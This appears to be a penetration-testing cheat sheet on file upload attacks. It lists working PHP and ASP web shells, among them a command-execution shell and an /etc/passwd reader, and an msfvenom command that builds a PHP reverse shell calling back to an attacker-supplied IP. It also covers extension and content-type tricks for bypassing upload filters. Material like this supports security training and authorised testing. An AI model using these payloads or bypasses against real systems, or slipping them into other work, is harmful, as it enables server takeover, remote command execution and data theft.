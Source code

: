 # File Upload Attacks

**Tip:** Find what language runs the web app by fuzzing the extention of the index page for common file types (/index.FUZZ).

[Wappalyzer](https://www.wappalyzer.com/) can also be used to detect what languages and othertechnologies are used.

## Web Shells

| Web Shell | Description |
|-----------|-------------|
| `<?php echo file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| Command | Description |
|---------|-------------|
| **Client-Side Bypass** | |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** | |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** | |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass** | |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| Potential Attack | File Types |
|------------------|------------|
| XSS | HTML, JS, SVG, GIF |
| XXE/SSRF | XML, SVG, PDF, PPT, DOC |
| DoS | ZIP, JPG, PNG |